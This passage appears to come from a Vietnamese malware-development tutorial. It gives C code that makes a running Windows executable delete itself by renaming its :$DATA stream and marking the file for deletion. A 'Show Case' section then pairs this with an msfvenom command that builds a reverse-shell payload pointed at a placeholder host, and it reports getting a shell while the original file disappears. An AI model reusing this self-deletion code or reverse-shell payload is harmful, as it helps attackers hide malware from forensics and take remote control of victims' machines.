 ```c
     /// Clean các struct tránh các giá trị không mong muốn
    ::ZeroMemory(szPath, sizeof(szPath)); 
    ::ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

    Delete.DeleteFile = TRUE;
    /// Đặt kích thước và bộ đệm lưu tên data stream mới trong struct 'FILE_RENAME_INFO'
    pRename->FileNameLength = sizeof(NewStream);
    ::RtlCopyMemory(pRename->FileName, NewStream, sizeof(NewStream));
    /// Lấy tên file hiện tại
    if (::GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
        return FALSE;
    }

    // Lấy handle của file hiện tại
    hFile = ::CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        return FALSE;
    }
    wprintf(L"[i] Renaming :$DATA to %s  ...", NEW_STREAM);

    // Đổi tên data stream
    if (!::SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
        return FALSE;
    }

    wprintf(L"[+] Done \n");
    CloseHandle(hFile);
    // Mở handle mới cho file hiện tại
    hFile = ::CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        return FALSE;
    }
    // Đánh dấu để xóa file sau khi đóng handle của file
    wprintf(L"[i] DELETING ...");
    if (!::SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
        return FALSE;
    }
    ::CloseHandle(hFile);
    ::HeapFree(::GetProcessHeap(), 0, pRename);

    wprintf(L"[+] DONE \n");
    return TRUE;
}
```
![[Pasted image 20230813205924.png]]
![[Pasted image 20230813204638.png]]
# Show Case
Bây giờ bạn hãy tưởng tượng xem sẽ ra sao nếu chúng ta ứng dụng kĩ thuật nãy vào công việc malware dev??
Ở đây mình sẽ sử dụng 1 kĩ thuật khá cơ bản đó là shellcode Execute với payload meterpreter được tạo từ msfvenom thông qua câu lệnh sau.
`msfvenom -p windows/x64/shell_reverse_tcp lhost=<host> lport=<port> -f c` 
Hàm main sẽ trông như thế này: 
![[Pasted image 20230813212048.png]]
Và đây là kết quả bạn đã xoá được file thực thi gốc sau khi chạy và lấy shell . 
![[Pasted image 20230813212015.png]]